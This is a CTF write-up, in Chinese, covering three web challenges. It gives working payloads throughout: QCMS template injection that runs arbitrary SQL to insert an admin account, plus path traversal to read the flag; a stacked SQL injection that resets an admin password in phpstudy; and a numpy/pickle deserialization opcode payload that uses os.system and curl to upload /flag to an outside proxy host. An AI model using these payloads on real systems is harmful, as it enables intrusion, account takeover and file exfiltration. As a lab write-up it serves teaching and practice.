


# **web-qqcms**

>   首先看题是一个qcms的代码审计，然后网上搜一波，没什么发现，唯一发现的是填写如下路径可以进入**安装页面**

```nginx
http://39.106.65.236:33392/install
```

页面返回内容如下：

```
系统已经安装, 请直接 登录 ！
如需要重新安装，请删除文件 "Lib/Config/Config.ini"
```


>   很明显没有这个在网上找到的漏洞，然后点击登录可以找到一个**登录界面**

```nginx
http://39.106.65.236:33392/index/admin.html
```


>   然后开始找账号密码，然后下载源码可以发现如下目录：

```nginx
QCMS
├─ .htaccess
├─ Database
├─ Lib
├─ Static
├─ System
├─ Template
├─ index.php
├─ nginx.htaccess
└─ rewrite.txt
```

首先在Database文件夹下发现sql文件，然后翻到最低下可以发现用户表结构和一个初始管理员账号

```mysql
CREATE TABLE `qc_user`  (
  `UserId` bigint(20) NOT NULL AUTO_INCREMENT,
  `Phone`bigint(11) NOT NULL DEFAULT 0,
  `NickName` varchar(50) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL DEFAULT '' COMMENT '昵称',
  `Head` varchar(255) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL DEFAULT '',
  `Password` varchar(32) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL DEFAULT '',
  `Name`  varchar(20) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL DEFAULT '' COMMENT '名字',
  `Address` varchar(255) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL DEFAULT '',
  `Sex` tinyint(3) NOT NULL DEFAULT 1,
  `Mail` varchar(50) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL DEFAULT '',
  `MailCheck` tinyint(3) NOT NULL DEFAULT 2 COMMENT '验证邮箱',
  `Money` decimal(10, 2) NOT NULL DEFAULT 0.00 COMMENT '金钱',
  `Coins` bigint(20) NOT NULL DEFAULT 0 COMMENT '积分',
  `State` tinyint(3) NOT NULL DEFAULT 1,
  `TsAdd` bigint(20) NOT NULL DEFAULT 0,
  `IpAdd` varchar(20) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL DEFAULT '' COMMENT '注册IP',
  `GroupUserId` tinyint(3) NOT NULL DEFAULT 0 COMMENT '用户组',
  `GroupAdminId` tinyint(3) NOT NULL DEFAULT 0 COMMENT '后台管理组',
  `IsAdmin` tinyint(3) NOT NULL DEFAULT 2 COMMENT '是否管理员',
  `TsLast` bigint(20) NOT NULL DEFAULT 0,
  `IpLast` varchar(16) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL DEFAULT '',
  PRIMARY KEY (`UserId`) USING BTREE
) ENGINE = InnoDB AUTO_INCREMENT = 5 CHARACTER SET = utf8 COLLATE = utf8_general_ci ROW_FORMAT = Dynamic;

-- ----------------------------
-- Records of qc_user
-- ----------------------------
INSERT INTO `qc_user` VALUES (4, 18888888888, '管理员', '', 'e10adc3949ba59abbe56e057f20f883e',
 '', '', 1, '', 2, 0.00, 0, 1, 1652334396, '127.0.0.1', 1, 1, 1, 1652334410, '127.0.0.1');
```

>   **然后发现密码，和账号，但是密码是加密的**

>   不过也尝试将账号和密码用于登录，无果


>   看代码翻了一段时间后在，`System\Controller\install.php`发现如下

```js
try{
                DB::$s_db_obj->beginTransaction();                
                $Path = PATH_DIRNAME.'/Database/qcms.sql';
                if(!file_exists($Path)) $this->Err(1035);
                $this->SysObj->ImportSql($Path);        
                $this->UserObj->ExecDelete();
                $this->UserObj->SetInsert(array(                    
                    'Phone' => $_POST['Phone'],
                    'NickName' => '管理员',
                    'Head' => '',
                    'Password' => md5(trim($_POST['RegPassword'])),
                    'GroupAdminId' => 1,
                    'GroupUserId' => 1,
                    'IsAdmin' => 1,
                    'State' => 1,
                    'TsAdd' => $Ts,
                    'IpAdd' => $this->CommonObj->ip(),
                ))->ExecInsert();  
                $this->SysObj->SetCond(array('Name' => 'Version'))->SetUpdate(array('AttrValue' => VERSION))->ExecUpdate();
                DB::$s_db_obj->commit();
```

>   得知密码为md5加密，将上面sql文件中的密码解密，可以发现源码中的密码为：**123456**

>   兴冲冲去登录尝试，登录失败！服务器环境和本地不一样


>   **然后在又翻了一波代码后发现主页的搜索框存在ssti注入**

```nginx
http://www.aaaa.com/index/search.html?Search={{math '5'+'2'}}  
```

-   它会计算出结果，这个注入方式独有的，一开始还以为用了别的模板引擎，谁知道这是自己写的
-   有自己的模板规则，这个规则可以在本地登录后台，然后进行这个界面可以发现`http://www.aaaa.com/admin/templates/builder.html`

>   **在同模块下可以发现一个万能标签：**

```nginx
{{loop sql='select * from qc_user'}}
    用户昵称：{{qcms:Loop_NickName}}
    用户头像： 
{{/loop}}
```

>   然后丢到主页那个搜索框中可以获取到用户的名称和头像


>   **修改一下sql在配合一波发现sql文件，可以将数据库中的那个管理员账号查询出来**

```nginx
{{loop sql='select * from qc_user'}}
    用户密码：{{qcms:Loop_Password}}
    用户电话：{{qcms:Loop_Phone}}
    用户id：{{qcms:Loop_UserId}}
{{/loop}}

```



>   将拿到的管理员密码拿去md5解密发现解不开
>
>   -   这里绕了个大弯，以为服务器有自己的加密规则啥的，然后一直想着去读那个install.php是不是和本地一样的，发现一直都读不到.......

>   **后面玩这个sql执行玩着玩着发现可以执行任意sql，不仅可以执行select还可以insert**
>
>   **然后就自己插入一个管理员，根据那个sql文件提供的字段名**

>   **这里也有个坑，因为insert成功还是失败页没有回显，服务器那边会一直报错，然后insert了很多条，然后回头使用上面那个查询所有用户信息的sql查询一下发现已经insert成功了**
>
>   
>
>   **测试sql可以在本地环境中的后台进入这个界面`[模板标签测试](http://www.aaaa.com/admin/templates/test.html#)`测试**
>
>   执行完一次就看一下数据库是否成功加了一条数据，或者看右边第一个是不是：`Uncaught PDOException: SQLSTATE[HY000]: `

```sql
{{loop sql='INSERT INTO `qc_user` VALUES (666, 18888888889, "管理员", "", "e10adc3949ba59abbe56e057f20f883e", "", "", 1, "", 2, 0.00, 0, 1, 1652334396, "127.0.0.1", 1, 1, 1, 1652334410, "127.0.0.1")'}}{{/loop}}
```

>   只要保证sql正确，执行完上面这个就可以直接去登录页面登录，密码是123456

>   **然后就进入到后台，也是在模板标签测试页面，这个有个目录穿越的漏洞**

```nginx
# 使用这个标签可以直接都到flag，要问怎么发现的，那都是之前想办法读那个服务器中的install.php文件的时候发现的....
{{include filename='../../../../../flag'}}
```




# phpstudy

## 堆叠注入

```nginx
# 123456
admin';update admins set password='c26be8aaf53b15054896983b43eb6a65';--             
```

>   **登录了在进行了在计划任务那执行shell**

****

本以为是xss的rce，网上也一大片，然后搁那试了好久，一直打不通，后面在网上找到个有堆叠的注入的，然后就打进去了

https://www.o2takuxx.com/index.php/2023/03/30/nkctf-2023-web/#toc-head-15

# easypy

## 扫目录

```nginx
# 获取到源码
http://eci-2ze7rk7lw8qu9htz90y5.cloudeci1.ichunqiu.com/download
```

>   **反编译.pyc文件，得到源码**

```py
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 3.8

import numpy # CVE-2019-6446
import base64
from flask import Flask, Response, request
app = Flask(__name__)

# 主页
def index():
    return '小p想要找一个女朋友，你能帮他找找看么？'

index = app.route('/', [
    'GET',
    'POST'], **('methods',))(index)

def girlfriends():
    if request.values.get('data'):
        data = request.values.get('data')
        numpydata = base64.b64decode(data)
        if b'R' in numpydata and b'bash' in numpydata or b'sh' in numpydata:
            return '不能走捷径啊'
        resp = None.loads(numpydata)
        return '可以的，要的就是一种感觉'

girlfriends = app.route('/girlfriends', [
    'GET',
    'POST'], **('methods',))(girlfriends)

def download():
    pass
# WARNING: Decompyle incomplete
# 获得源码
download = app.route('/download', [
    'GET',
    'POST'], **('methods',))(download)
if __name__ == '__main__':
    app.run('0.0.0.0', 80, **('host', 'port'))

```

CVE-2019-6446：https://mp.weixin.qq.com/s/9qwTTtQdpIjH8f0CcDYs6g


**payload**

```nginx
import base64
# 
opcode=b'''c__builtin__
map
p0
0(S'curl http://ichunqiu.com -F file=@/flag -x xxx.xxx.xxx.xxx:9999'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
tuple
p4
(g3
t\x81.'''

code=base64.b64encode(opcode)
print(code.decode('utf-8'))
```

